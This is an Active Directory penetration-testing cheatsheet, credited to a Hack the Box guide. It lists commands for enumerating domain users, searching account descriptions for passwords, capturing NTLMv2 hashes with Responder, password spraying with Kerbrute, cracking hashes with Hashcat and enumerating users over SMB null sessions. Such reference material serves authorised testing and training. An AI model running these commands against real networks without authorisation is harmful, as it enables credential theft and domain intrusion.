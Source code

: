 # Active Directory Hacking

:::info Credits to Hack the Box

A lot of the commands in this cheatsheet are taken from a [Hack the Box blog post](https://www.hackthebox.com/blog/active-directory-penetration-testing-cheatsheet-and-guide).

:::

## Powershell

**Also found in:** [Batch and Powershell Cheatsheet](/commands-cheatsheet/windows/batch-and-powershell)

### Load the built-in Active Directory PowerShell module

```powershell title="PowerShell"
Import-Module ActiveDirectory
```

### List domain users using Get-ADUser and filter by the username

```powershell title="PowerShell"
Get-ADUser -Filter * | select Name
```

### Check the description field of domain users for sensitive data such as passwords

```powershell title="PowerShell"
Get-DomainUser * | Select-Object samaccountname,description
```

## Responder

### Analysis mode

```bash
sudo responder -I <interface> -A
```

### Response spoofing to gather NTLMv2 password hashes

```bash
sudo responder -I <interface> -w -d
```

## Kerbrute

### Enumerate valid Active Directory users for password spraying

```bash
kerbrute userenum -d <domain> --dc <ip> jsmith.txt -o kerb-results
```

```bash
kerbrute passwordspray -d <domain> --dc <ip> valid_users.txt <password>
```

## Hashcat

**Also found in:** [Hashcat Cheatsheet](/commands-cheatsheet/hashcat)

### Crack an NTLMv2 hash gathered with Responder

```bash
hashcat -m 5600 <hash> <wordlist>
```

## CrackMapExec

**Also found in:** [SMB Cheatsheet](/commands-cheatsheet/smb)

### Enumerate the domain password policy

```bash
crackmapexec smb <ip> -u <user> -p <password> --pass-pol
```

### SMB NULL sessions on a dc host and enumerate valid users

```bash
crackmapexec smb <ip> -u '' -p '' --users --export $(pwd)/users.txt
```
